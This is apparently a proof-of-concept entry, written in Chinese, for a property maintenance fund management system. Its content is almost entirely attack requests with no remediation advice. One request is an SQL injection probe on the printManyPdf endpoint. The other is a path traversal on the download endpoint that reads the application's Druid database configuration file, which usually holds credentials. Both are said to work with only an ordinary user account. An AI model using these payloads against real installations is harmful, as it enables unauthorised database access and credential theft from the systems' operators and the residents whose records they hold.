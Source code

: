## 物业专项维修资金管理系统漏洞
利用条件：所有漏洞均需要普通用户权限

## sql注入漏洞
```
/property/propertyRightAlteration/printManyPdf?id=1+and+1=1a
```

![81a445dd5c9a5cf1b569dd4216b1bec8](../../images/9210a9de-0bfe-4772-84bf-4d2873425569.png)

![3fb59376b871a4fa375e8b3e6c440067](../../images/8716165d-9b8c-4ba4-95f2-9fe674267595.png)


## 文件读取漏洞
```
/common/download?fileName=../../wxzj/application-druid.yml
```

![6605ac7e553fc1d894fa7bc3dceb66b3](../../images/eccbbbf9-7d99-400e-8e96-8e3673b0e45c.png)


## 漏洞来源
- https://mp.weixin.qq.com/s/wNCafw5pBGTnUEVUoDjbtg
